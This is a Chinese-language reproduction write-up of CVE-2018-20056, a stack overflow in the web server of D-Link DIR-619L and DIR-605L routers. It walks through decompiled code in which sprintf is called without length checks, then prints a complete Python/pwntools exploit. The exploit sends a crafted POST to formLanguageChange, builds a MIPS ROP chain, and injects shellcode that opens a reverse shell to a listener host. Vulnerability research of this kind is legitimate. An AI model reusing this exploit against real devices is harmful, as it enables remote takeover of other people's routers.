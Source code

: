 # （CVE-2018-20056）D-Link DIR-619L&605L 栈溢出漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formLanguage函数中存在缓冲区溢出漏洞，在调用sprintf函数时没有对参数的长度进行检查，导致远程攻击者可以通过访问

```
http://[ip]/goform/formLanguageChange并指定currTime参数实现远程代码执行。
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

在formLanguageChange函数中，通过websGetVar获取config.i18n_language，nextPage，currTime等参数。websGetVar通过malloc、memcpy将获取到的参数返回给formLanguageChange。formLanguageChange接下来调用了sprintf危险函数向local_f8变量中读入参数内容，并在下一步websRedirect使用了local_f8作为参数。

```
void formLanguageChange(undefined4 uParm1)
{
  int iVar1;
  char *pcVar2;
  undefined4 uVar3;
  FILE *__stream;
  char *__s1;
  char local_f8 [200];
  char acStack48 [24];
  undefined4 local_18;
  int local_14;

  __s1 = (char *)websGetVar(uParm1,"config.i18n_language",&DAT_004ac874);
  ……
  apmib_set(0x129,&local_18);
  __s1 = (char *)websGetVar(uParm1,"nextPage",&DAT_004ac874);
  if (*__s1 == 0) {
    uVar3 = websGetVar(uParm1,"currTime",&DAT_004ac874);//获取currTime参数
    __s1 = "/index.asp";
  }
  else {
    ……
  }
  sprintf(local_f8,"%s?t=%s",__s1,uVar3);//危险函数sprintf直接读入字符
LAB_00460b34:
  websRedirect(uParm1,local_f8);
  ……
  return;
}
```

websRedirect主要调用`send_r_moved_perm`，这个函数调用了两次危险函数sprintf，分别向acStack224(sp+0x19f8-0xe0)和acStack480(sp+0x19f8-0x1e0)中输入字符。

```
undefined4 websRedirect(int iParm1,char *pcParm2)
{
  char *pcVar1;

  *(undefined4 *)(iParm1 + 0x50) = 0;
  pcVar1 = strstr(pcParm2,"/apply_setting.asp");
  if (pcVar1 != (char *)0x0) {
    apply_setting_redirect = apply_setting_redirect + 1;
  }
  send_r_moved_perm(iParm1,pcParm2);
  return 0;
}

void send_r_moved_perm(int iParm1,char *pcParm2)

{
  undefined4 uVar1;
  char *pcVar2;
  undefined auStack6624 [6144];
  char acStack480 [256];
  char acStack224 [200];

  ……
  if (pcVar2 == (char *)0x0) {
    if (*pcParm2 == '/') {
      pcParm2 = pcParm2 + 1;
    }
    sprintf(acStack224,"http://%s/%s",*(undefined4 *)(iParm1 + 0x70),pcParm2);
    pcParm2 = acStack224;
  }
  sprintf(acStack480,

          "<html><head></head><body>\r\n\t\tThis document has moved to a new <ahref=\"%s\">location</a>.\r\n\t\tPlease update your documents to reflect the newlocation.\r\n\t\t</body></html>\r\n"
          ,pcParm2);
  ……s
  return;
}
```

通过第二两个sprintf修改返回地址，构造ROP链，导致程序控制流被劫持。（也可以通过两个sprintf的配合来实现栈的迁移，漏洞作者是这么实现的）

### 漏洞复现

#### poc

```
import requests
import sys
import struct
from pwn import *
#context.log_level='debug'
context.arch='mips'
context.endian='big'
ip='192.168.75.150'

def syscmd1(a):
    p=remote(ip,80)
    z=len(a)
    print "[+]len:"+str(z)
    payload=''
    payload+='POST /goform/formLanguageChange HTTP/1.1\r\n'
    payload+='Host: '+ip+'\r\n'
    payload+='Connection: keep-alive\r\n'
    payload+='Accept-Encoding: gzip, deflate\r\n'
    payload+='Accept: */*\r\n'
    payload+='User-Agent: python-requests/2.18.4\r\n'
    payload+='Content-Length: '+str(z+9)+'\r\n'
    payload+='Content-Type: application/x-www-form-urlencoded\r\n'
    payload+='\r\n'
    payload+='currTime='
    payload+=a+'\r\n'
    p.send(payload)
    p.recvuntil('</html>')
    #raw_input()
    p.close()

#base address of libc.so.0
base1=0x2ab88000
###shellcode
sc=struct.pack(">I",0x24060101)
sc+=struct.pack(">I",0x04d0ffff)
sc+=struct.pack(">I",0x2806ffff)
sc+=struct.pack(">I",0x27bdffe0)
sc+=struct.pack(">I",0x27e41001)
sc+=struct.pack(">I",0x2484f023)
sc+=struct.pack(">I",0xafa4ffe8)
sc+=struct.pack(">I",0xafa0ffec)
sc+=struct.pack(">I",0x27a5ffe8)
sc+=struct.pack(">I",0x24020fab)
sc+=struct.pack(">I",0xafa00108)
sc+=struct.pack(">I",0x0101010c)
sc+="/bin//sh\x00"

shellcode =''
shellcode += asm(shellcraft.connect('192.168.75.149',5555))
shellcode += asm(shellcraft.dup2(5,0))
shellcode += asm(shellcraft.dup2(5,1))
shellcode += sc

s0=struct.pack(">I",base1+0x2C794)
s1=struct.pack(">I",base1+0x2C794)### rop2:move $t9,$s2;...;jr $t9 
s2=struct.pack(">I",base1+0x24b70)### rop3:sleep(1)
s3=struct.pack(">I",base1+0x2bdac)### rop5:addiu $a0,$sp,0x18;...;lw $ra,0x30;jr $ra
s4=struct.pack(">I",base1+0x2bdac)
###rop
payload1='a'*0x167+s0+s1+s2+s3
payload1+=struct.pack(">I",base1+0x25714)  ###rop1: li $a0,1;move $t9,$s1;jalr $t9;ori $a1,$s0,2
payload1+='b'*0x1c+s0+s1+s2+s3+s4
payload1+=struct.pack(">I",base1+0x5f98)  ###rop4:lw $ra,0x1c($sp);...;jr $ra
payload1+='c'*0x1c
payload1+=s3
payload1+='d'*0x18
payload1+=struct.pack(">I",0x24910101) ###rop7 addiu $s1,$a0,257;addi $s1,$s1,-257;move $t9,$s1;jalr $t9
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x0220c821)
payload1+=struct.pack(">I",0x0320f809)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",base1+0x2bda0) ###rop6:mov $t9,$a0;...;jalr $t9
payload1+='e'*0x20+shellcode
if __name__ == "__main__":
    syscmd1(payload1)
```

利用效果:

![image](.resource/%EF%BC%88CVE-2018-20056%EF%BC%89D-Link%20DIR-619L&605L%20%E6%A0%88%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E/media/13-20201014111355334.png)

![image](.resource/%EF%BC%88CVE-2018-20056%EF%BC%89D-Link%20DIR-619L&605L%20%E6%A0%88%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E/media/14-20201014111355336.png)